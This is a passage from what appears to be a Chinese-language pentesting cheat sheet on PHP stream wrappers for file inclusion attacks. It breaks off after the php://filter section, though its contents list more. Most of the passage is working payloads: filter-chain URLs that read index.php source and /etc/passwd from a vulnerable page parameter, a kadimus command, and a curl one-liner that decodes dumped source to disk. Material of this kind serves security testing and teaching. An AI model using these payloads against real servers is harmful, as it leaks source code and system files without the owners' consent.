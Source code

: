 # 使用包装器进行包含

在文件包含漏洞的上下文中，“包装器”指的是用于访问或包含文件的协议或方法。包装器通常用于PHP或其他服务器端语言中，以扩展文件包含功能，除了本地文件系统外，还可以使用HTTP、FTP等协议。

## 概述

- [包装器 php://filter](#包装器-phpfilter)
- [包装器 data://](#包装器-data)
- [包装器 expect://](#包装器-expect)
- [包装器 input://](#包装器-input)
- [包装器 zip://](#包装器-zip)
- [包装器 phar://](#包装器-phar)
    - [PHAR 归档结构](#phar-归档结构)
    - [PHAR 反序列化](#phar-反序列化)
- [包装器 convert.iconv:// 和 dechunk://](#包装器-converticonv-和-dechunk)
    - [从基于错误的oracle泄露文件内容](#从基于错误的oracle泄露文件内容)
    - [在自定义格式输出中泄露文件内容](#在自定义格式输出中泄露文件内容)
- [参考文献](#参考文献)

## 包装器 php://filter

部分 "`php://filter`" 是不区分大小写的。

| 过滤器           | 描述                     |
| ---------------- | ------------------------ |
| `php://filter/read=string.rot13/resource=index.php` | 将 index.php 显示为 rot13 |
| `php://filter/convert.iconv.utf-8.utf-16/resource=index.php` | 将 index.php 从 utf8 编码为 utf16 |
| `php://filter/convert.base64-encode/resource=index.php` | 将 index.php 显示为 base64 编码字符串 |

```powershell
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```

对于大文件，可以使用压缩包装器链接包装器。

```powershell
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```

注意：包装器可以通过 `|` 或 `/` 多次链接：

- 多次 base64 解码：`php://filter/convert.base64-decoder|convert.base64-decode|convert.base64-decode/resource=%s`
- 先压缩再 base64 编码（适用于有限字符提取）：`php://filter/zlib.deflate/convert.base64-encode/resource=/var/www/html/index.php`

```powershell
./kadimus -u "http://example.com/index.php?page=vuln" -S -f "index.php%00" -O index.php --parameter page 
curl "http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php" | base64 -d > index.php
```
